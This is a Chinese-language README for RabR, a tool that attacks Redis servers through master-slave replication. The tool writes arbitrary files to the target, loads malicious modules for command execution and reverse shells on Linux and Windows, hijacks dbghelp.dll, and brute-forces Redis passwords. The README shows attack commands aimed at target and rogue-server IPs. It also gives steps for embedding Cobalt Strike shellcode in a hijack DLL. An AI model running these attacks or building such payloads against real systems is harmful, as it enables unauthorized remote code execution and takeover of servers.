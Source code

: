 # RabR 

Redis-Attack By Replication (通过主从复制攻击Redis)   

- 攻击Linux下的Redis，可执行命令和反弹shell
- 攻击Window x64下的Redis，可执行命令 

本工具基于**Ridter**师傅的[**redis-rce**](https://github.com/Ridter/redis-rce) 进行修改。  

## 声明
本工具仅用于个人安全研究学习。由于传播、利用本工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，工具作者不为此承担任何责任。

## 原理
Redis从2.8开始，就支持主从复制功能。     

这个功能存在脆弱的地方：主从复制中，Redis从机会将Redis主机的数据库文件同步到本地的数据库文件，并检验其是否为RDP格式，但如果不是RDP格式也不会删除。   
所以我们只要将主从复制传输中的数据库文件，替换为我们自己的数据，就可以将我们自己的数据原封不动的写入到Redis从机的数据库文件中，而这个数据库文件的名字也可以通过Redis从机进行修改。  
**这就意味着我们可以将任意文件写入到目标Redis权限下的任意路径**。    

## 特点
- 本工具利用这个Redis的脆弱性，对Linux下的Redis进行module攻击，对Windows下的Redis进行module攻击和dll劫持攻击。  
- 本工具默认使用的Linux恶意模块：exp.so，源码来自于：[**RedisModules-ExecuteCommand** ](https://github.com/puckiestyle/RedisModules-ExecuteCommand ), 该模块实现了执行单条命令和反弹shell的功能，你也可以编写自己的模块。  
- 本工具默认使用的Windows恶意模块：exp.dll，源码来自于：[**RedisModules-ExecuteCommand-for-Windows** ](https://github.com/0671/RedisModules-ExecuteCommand-for-Windows ), 该模块实现了执行命令的功能，你也可以编写自己的模块。  
- 本工具默认使用的用于劫持的恶意dll：dbghelp.dll，是通过 [**DLLHijacker** ](https://github.com/kiwings/DLLHijacker )+ **Winx64下的dbghelp.dll**编译生成的，该dll会执行calc，你可以编译自己的dbghelp.dll。
- 本工具有爆破功能，默认密码字典位于pwd.txt中，也可自定义字典文件。  
- 本工具在攻击前会备份目标Redis的数据，在攻击结束后会进行恢复，使用的工具为[**redis-dump-go**](https://github.com/yannh/redis-dump-go )。默认是开启的，可以关闭。  

## 结构
```  
│  dbghelp.dll 默认用于劫持Redis的dll
│  exp.dll 默认导入的Windows Redis模块
│  exp.so 默认导入的Linux Redis模块
│  pwd.txt 爆破字典
│  README.md
│  redis-attack.py 攻击主程序
│  util 有用的程序（用于保存Redis数据）  
```

## 用法   
运行环境：python3
```
usage: python redis-attack.py [-h] -r RHOST [-p RPORT] -L LHOST [-P LPORT] [-wf WINFILE] [-lf LINUXFILE] [-a AUTH] [--brute] [-v]
Example: 
    python redis-attack.py -r 192.168.1.234 -L 192.168.1.2 --brute
    python redis-attack.py -r 192.168.1.234 -L 192.168.1.2 -P 80 -b mypwd.txt -i

optional arguments:
  -h, --help            show this help message and exit
  -r RHOST, --rhost RHOST
                        target host
  -p RPORT, --rport RPORT
                        target redis port, default 6379
  -L LHOST, --lhost LHOST
                        rogue server ip
  -P LPORT, --lport LPORT
                        rogue server listen port, default 16379
  -wf WINFILE, --winfile WINFILE
                        Dll Used to hijack redis, default dbghelp.dll
  -wf2 WINFILE2, --winfile2 WINFILE2
                        RedisModules(win) to load, default exp.dll
  -lf LINUXFILE, --linuxfile LINUXFILE
                        RedisModules(linux) to load, default exp.so
  -a AUTH, --auth AUTH  redis password
  -b [BRUTE], --brute [BRUTE]
                        If redis needs to verify the password, perform a brute force attack. Dict default pwd.txt
  -i, --idontcare       don't care about the data on the target redis
  -v, --verbose         show more info
```

![image-20210708212712502](pic/image-20210708212712502.png)
![image-20210708190457889](pic/image-20210708190457889.png)
![image-20210708213302932](pic/image-20210708213302932.png)

## 进一步  
劫持Windows x64下的dbghelp.dll的具体方法：  
1）[DLLHijacker](https://github.com/kiwings/DLLHijacker) +目标Redis的系统版本的dbghelp.dll， 生成vs项目。  
2）vs项目修改：   
```
1、将dllmain.c中 shellcode_calc[] 的值替换为cs生成的shellcode 
2、为了避免只能劫持1次dll，在dllmain.cpp的 Hijack();后增加 FreeLibrary(hModule);
3、修改活动解决方案为Realease，x64
4、修改项目属性的sdk版本、平台工具集为本地vs可用的值
```
3）编译生成恶意dbghelp.dll，复制到本工具目录下。    
4）使用本工具执行攻击。  

## 时间线  
```  
2021.07.03 发布v0.5
2021.07.08 发布v0.6,增加了Windows模块攻击
```


## 感谢  
本工具基于大量优秀文章和工具才得以编写完成，非常感谢这些无私的分享者！！非常感谢某群大佬分享的关键词(很重要)！！非常感谢！！  
帮助到我的文章与工具包括但不限于：  
 [Redis on Windows 出网利用探索](https://xz.aliyun.com/t/8153)  
 [Redis On Windows -- Dll Hijack](https://jkme.github.io/redis-on-windows-dll-hijack.html)  
 [DLLHijacker](https://github.com/kiwings/DLLHijacker)  
 [redis-rce](https://github.com/Ridter/redis-rce)  
 [RedisWriteFile](https://github.com/r35tart/RedisWriteFile)  
 [redis-dump-go](https://github.com/yannh/redis-dump-go)  

## 反馈  
Mail：h.vi@qq.com   
或者[issue](https://github.com/0671/RabR/issues/new)、PR    